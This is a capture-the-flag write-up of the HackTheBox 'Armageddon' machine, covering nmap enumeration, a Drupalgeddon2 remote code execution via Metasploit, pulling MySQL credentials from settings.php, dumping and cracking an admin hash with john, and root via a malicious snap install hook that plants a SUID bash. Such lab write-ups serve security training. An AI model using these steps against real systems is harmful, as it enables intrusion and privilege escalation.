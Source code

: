 ```yaml
---
title: "HackTheBox - Armageddon"
author: Nasrallah
description: ""
date: 2023-02-05 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, sudo, rce, cve]
img_path: /assets/img/hackthebox/machines/armageddon
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Armageddon](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.10.233
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Welcome to  Armageddon |  Armageddon
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-generator: Drupal 7 (http://drupal.org)
```

We have OpenSSH running on port 22 and an Apache web server with Drupal on port 80.

We also see there is a robots.txt with a total of 36 disallowed entries.

## Web

Let's navigate to the web page.

![](1.png)

We have a login page and no credentials.

Let's check the /CHANGELOG.txt

![](2.png)

Here we see the version of Drupal is 7.56, let's search on exploit-db to see if this version is vulnerable.

![](3.png)

This Drupal is vulnerable to remote code execution.


## **Foothold**

Using the metasploit `exploit/unix/webapp/drupal_drupalgeddon2` module, let's exploit the service.

![](4.png)

Great! We got the shell.

## **Privilege Escalation**

Let's check the settings.php file where database credentials are stored.

![](5.png)

We find mysql credentials, let's connect to it.

```terminal
bash-4.2$ mysql -u drupaluser --password=CQHEy@9M*m23gBVj -e 'show databases;'
<er --password=CQHEy@9M*m23gBVj -e 'show databases;'                         
Database              
information_schema   
drupal             
mysql                      
performance_schema        
bash-4.2$ mysql -u drupaluser --password=CQHEy@9M*m23gBVj -D drupal -e 'show tables;'
<er --password=CQHEy@9M*m23gBVj -D drupal -e 'show tables;'                  
Tables_in_drupal   
actions  
authmap      
.
.
.
users
users_roles
variable
watchdog
bash-4.2$ mysql -u drupaluser --password=CQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'
<er --password=CQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'  
name    pass

brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt

```

We got `brucetherealadmin`'s hash, let's crack it.

```bash
──╼ $ john --wordlist=/usr/share/wordlists/rockyou.txt hash    
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
booboo           (?)
1g 0:00:00:02 DONE (2023-01-26 09:28) 0.3891g/s 90.27p/s 90.27c/s 90.27C/s tiffany..harley
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

We got the password, now let's ssh to the machine.

![](6.png)

Now we run sudo -l

```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

We can run snap install as root.

Checking this entry on GTFOBins, we find that we can run the following command to get root.

```bash
COMMAND='cp /bin/bash /home/hacked && chmod +s /home/hacked'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```


```bash
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```

fpm is not installed on the target machine, so we'll execute the first part on our machine then upload the snap file to our target and execute the second part command.

First we install npm with `sudo gem install --no-document fpm`.

Now let's get root.

![](7.png)


![](8.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
